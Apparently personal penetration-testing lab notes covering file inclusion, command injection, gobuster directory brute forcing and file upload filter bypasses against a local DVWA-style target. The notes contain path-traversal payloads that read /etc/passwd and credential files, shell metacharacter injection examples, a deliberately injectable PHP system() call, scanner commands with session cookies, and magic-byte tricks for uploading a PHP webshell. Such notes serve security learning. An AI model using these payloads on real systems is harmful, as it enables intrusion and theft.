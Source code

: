 ### LFI,RFI
- DB credentials : ../../../etc/db/credentials.txt
- uploaded php Webshell or revshell execution : ../../../var/www/html/mal.php 

- notice `?page=index.php` , `?file=file1.php` , etc.

- brute forcing > automation tools
```bash
python3 lfimaps.py -U URL~/?page=include.php [-C COOKIES] -a 
```
- they send the payloads 
    - ex) ../../../../etc/passwd, page=

```bash
python3 lfimaps.py -U "http://172.31.155.162:4280/vulnerabilities/fi/?page=include.php" -C "wordpress_test_cookie=WP+Cookie+check; PHPSESSID=904431db09a425247034e5e3e0562de1; wordpress_logged_in_9e6ede65712295701f371ec48510f545=admin%7C1719866530%7CCU6IgBGo6fhuocb84qGfaMaH75AtrE6Ilv9EMmEXekV%7Cd5f8c517502b04af2beeb1538590fc3a9d727778610af10e5830423ffb057477; wp-settings-time-1=1719693780; security=low" -a
```

### command injection
```php
<?php system("ping -c 4 ".$_GET['ip']);>
```
- meta character
    - ping ; ip a 
    - (also && ||)

- automation
    - payload-list > intruder paste
    - recourse pool > thread 10 or 100, can speed up 


### Go buster
```bash
gobuster dir -u URL -w DIR -s "STATUS CODE e.g. 200,301,302" --exclude-legnth LENGTH
```
- wordlist : 
    - 2.3 small or lowercase 2.3 enough 

```bash
gobuster dir -u "http://172.31.155.162:8081" -w /usr/share/dirbuster/wordlists/
```
- recursive can but don't on gobuster : too many request and time , 
    - of course there're tools ex) dirbuster,   
    - but it's not good >> just assume dir first
        - /wp-content/

    - `-t 20`
        - enough, too much thread more than 60 = docker crash


### File Upload

#### bypass
1. file extension
2. MIME TYPE, content type (maybe they check extension, content-type both or one)
3. magic byte change : when identify only the magic byte(getimagesize : identify magic byte)
    - magic byte png + extension php or 
    - magic byte php, extension png
    - +FLI > even though .png, content webshell php code > executable
